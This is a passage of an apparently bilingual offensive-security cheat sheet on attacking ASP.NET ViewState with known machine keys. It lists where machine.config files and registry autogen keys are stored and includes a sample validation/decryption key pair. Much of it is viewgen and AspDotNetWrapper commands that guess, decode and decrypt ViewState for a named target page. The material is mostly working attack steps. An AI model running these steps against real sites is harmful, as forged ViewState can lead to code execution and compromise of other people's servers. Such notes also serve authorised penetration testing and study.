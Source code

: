 ```
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```

**web.config** / **machine.config**的常见位置：

- 32-bit
  - C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config
  - C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config
- 64-bit
  - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config
  - C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config
- 当启用**自动生成**时在注册表中 (提取方式 machineKeyFinder.aspx：https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab)
  - HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4
  - HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey

#### Identify known machine key - 识别已知的机器密钥

- Exploit with [Blacklist3r/AspDotNetWrapper](https://github.com/NotSoSecure/Blacklist3r)
- Exploit with [ViewGen](https://github.com/0xacb/viewgen)

```
# --webconfig WEBCONFIG: automatically load keys and algorithms from a web.config file
# -m MODIFIER, --modifier MODIFIER: VIEWSTATEGENERATOR value
$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

# --encrypteddata : __VIEWSTATE parameter value of the target application
# --modifier : __VIEWSTATEGENERATOR parameter value
$ AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata <real viewstate value> --purpose=viewstate --modifier=<modifier value> –macdecode
```

#### Decode ViewState - 解码ViewState

```
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="

$ .\AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate  --modifier=CA0B0334 --macdecode

$ .\AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"
```

